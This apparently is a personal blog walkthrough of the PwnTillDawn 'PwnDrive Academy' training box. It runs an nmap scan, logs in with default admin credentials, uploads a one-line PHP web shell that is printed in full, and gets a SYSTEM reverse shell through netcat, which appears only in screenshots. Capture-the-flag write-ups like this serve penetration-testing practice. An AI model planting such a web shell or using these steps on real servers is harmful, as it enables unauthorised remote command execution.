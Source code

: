 <a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>


### PwnDrive Academy PwntillDawn

### IP Address = 10.150.150.11

### Difficulty = Easy

### OS = windows
Hi guys,
<br> Will be walking you through a pwntilldawn easy box "pwndriveacademy"
<br> Let's begin the hacks :) .

## NMAP SCAN:

```

┌──(venus㉿AL13N)-[~]
└─$ nmap -A -T5 10.150.150.11                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-03 22:17 WAT
Warning: 10.150.150.11 giving up on port because retransmission cap hit (2).

** (atril:3324): WARNING **: 22:19:20.176: Error setting file metadata: No such file or directory
Nmap scan report for 10.150.150.11
Host is up (0.19s latency).
Not shown: 980 closed tcp ports (conn-refused)
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Xlight ftpd 3.9
80/tcp    open     http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
306/tcp   filtered unknown
443/tcp   open     ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp   open     microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1110/tcp  filtered nfsd-status
1433/tcp  open     ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-24T13:11:13
|_Not valid after:  2050-08-24T13:11:13
|_ssl-date: 2023-06-03T22:06:39+00:00; +46m37s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|_  Product_Version: 6.1.7601
3306/tcp  open     mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 1053
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: jDU_\3&cCbDmy9MYU}9B
|_  Auth Plugin Name: mysql_native_password
3371/tcp  filtered satvid-datalnk
3389/tcp  open     ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2023-06-02T18:08:29
|_Not valid after:  2023-12-02T18:08:29
|_ssl-date: 2023-06-03T22:06:37+00:00; +46m37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-03T22:06:29+00:00
5631/tcp  filtered pcanywheredata
8042/tcp  filtered fs-agent
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49155/tcp open     msrpc              Microsoft Windows RPC
49156/tcp open     msrpc              Microsoft Windows RPC
49157/tcp open     msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-03T15:06:29-07:00
|_clock-skew: mean: 1h46m37s, deviation: 2h38m45s, median: 46m36s
| smb2-time: 
|   date: 2023-06-03T22:06:29
|_  start_date: 2020-08-24T13:11:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.34 seconds

```

From the scan it shows the box is running on a windows OS

<br> so, enumerating port 21 (ftp) gives nothing. 

<br> Then moving on to the next port which's port 80(http)

<br> we can see that there's nothing intresting on the page except the *signin* functionality

<br> so, let's try to signin using default credentials **admin:admin** 

![2023-06-03_22-45](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/af1826b2-aa06-4337-b2d7-55d26d90e0ca)

boom we are in the admin's panel.

<br> AS you can see there is an upload functionality,let's try to upload a shell (NB: the server is running php. Php web shell should work)

![succ_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1d05b3a7-0383-459d-afa3-97d66d5b38f2)
wow our shell has been uploaded successfully.
~~~
the shell
<?php system($_GET['cmd']); ?>
~~~
so, let's find our uploaded shell by bruteforcing for directories using ffuf
![finding_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/0f28f198-8eb0-433f-8000-c84fb1178698)
Good we found it ;)

Now lets's gain  reverse shell via our uploaded webshell
![revrsjpg](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a68e92f2-b193-41dc-958b-0f0b2f1ea797)
i used a powershell reverse shell from [revshells](https://revshells.com/) .
<br> Then start netcat listener and press F5 to refresh the page.
![done](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8c23decd-9d37-41df-834a-846a6ea9a815)

BOOM!!  sweet reverse shell ;)

luckily we got the shell as system , escalating privilege isn't required.

DONE!!

*Till another day 999 to the world*

